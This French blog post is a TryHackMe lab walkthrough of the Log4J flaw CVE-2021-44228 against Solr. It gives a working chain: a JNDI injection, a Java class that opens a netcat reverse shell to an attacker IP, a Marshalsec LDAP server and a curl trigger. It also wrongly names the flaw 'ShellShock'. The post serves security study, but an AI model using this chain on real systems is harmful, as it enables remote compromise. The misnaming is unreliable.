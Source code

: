 ```yaml
---

layout: post

title: "Analyse de la faille Log4J"

date: 2021-12-13

categories: divers

---
```


# Analyse de la faille Log4J (CVE-2021-44228)

Pas besoin d'être un professionnel de la cybersécurité pour avoir entendu parler de cette faille qui a mis les Ops et les RSSI en ébullition.

Connue sous le nom de CVE-2021-44228, ou plus communément "ShellShock" de par son impact étendu, cette faille notée 10 (sur 10 !) par le scoring CVSS permet un _Remote Code Execution_ en exploitant le système de log basé sur Java : Log4J.

Je vous propose une brève analyse de cette faille. Avec tout d'abord un remerciement à John Hammond pour la création de la machine vulnérable sur TryHackMe.

# Reconnaissance de la faille

Cette faille se retrouve sur bon nombre d'applications, puisque Log4J est très répandue pour la création de logs. Pour cette attaque je me base sur l'application Solr, qui utilise une version vulnérable de Log4J.

![2](https://user-images.githubusercontent.com/16634117/145869688-87433bd9-c133-41de-bd0d-43588d5e01a1.PNG)

Un petit tour sur l'application et on remarque rapidement que l'application Log4J est présente dans les arguments de l'application. 

Il faut maintenant savoir si cette version est vulnérable, pour ça il faut trouver un point d'injection. Le plus simple est de jeter un oeil aux logs de l'application :

![example_logs](https://user-images.githubusercontent.com/16634117/145869966-14f8f7bf-995c-470a-a6e8-dc4a334a5edb.png)

Ici, on voit clairement que les requêtes GET sont journalisées ; l'url mais également **les paramètres**. (C'est sur ce point que l'exploit peut changer, suivant la journalisation en place, il existera des points d'injection de code ou pas)

Pour identifier la vulnérabilité du système, j'injecte un paramètres GET avec la charge utile suivante (expliquée dans la présentation de la faille) :

`{jndi:ldap://<IP>:<PORT>}`

Voilà donc l'injection, avec un listener de l'autre côté pour vérifier la bonne execution par le système de logs :

![5](https://user-images.githubusercontent.com/16634117/145870531-750a9523-9d1c-4b0d-b523-af4b2d1e669e.png)

Une connexion s'effectue bien entre notre machine et le serveur, ce dernier est donc **vulnérable à l'attaque**.

# Exploitation

Nous avons vu dans la partie précédente que l'application est vulnérable, pour le moment, aucune execution de code sur le serveur n'est réalisée. 

C'est ici que la seconde partie de la faille se trouve, l'utilisation de jdni va permettre de faire des appels à un serveur LDAP, serveur qui peut être malicieux et donc utilisé pour rediriger vers du code malveillant en notre possession.

## Charge utile

Afin de créer un accès au serveur, on cherche simplement à créer un shell, pour ça la classe Java suivante est suffisante : 

```Java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.65.176 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

On la compile sous le nom de `Exploit.class`

## Mise en place d'un serveur LDAP malveillant

Pour cela on utilise le software Marshalsec (https://github.com/mbechler/marshalsec) qui va permettre de créer le serveur LDAP et de rediriger le trafic.

La commande suivante va créer le serveur et rediriger vers notre code malveillant :

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.65.176:8000/#Exploit"`

![image](https://user-images.githubusercontent.com/16634117/145871850-2f83e1d5-6e94-40ec-803b-c71be8fca4d6.png)

## Attaque

Une fois les éléments en place, il faut unserveur capable de répondre avec notre charge malveillante, un simple `python3 -m http.server` à la racine de notre paylaod fera l'affaire.

Pour pouvoir récupérer le shell il faut également ouvrir une connexion au niveau de la machine d'attaque :

`nc -lnvp 9999`

Tous les éléments sont en place. 

Une requête avec l'injection va permettre de déclencher toute la chaîne d'attaque : 

`curl 'http://10.10.31.65:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.65.176:1389/Exploit\}'`

Une fois cela fait :

![image](https://user-images.githubusercontent.com/16634117/145872643-ec39c7ca-e33d-4b34-8c31-a6b2ed397b09.png)
_De haut en bas et de gauche à droite : la reqûete malveillante, le serveur LDAP redirigeant le traffic, le serveur Python répondant avec la payload RCE compilée, le reverse shell_

On obtient bien un accès en shell au serveur, par la suite il est possible de continuer une chaîne classque d'attaque pour gagner en privilèges et corrompre une plus grande partie du système.



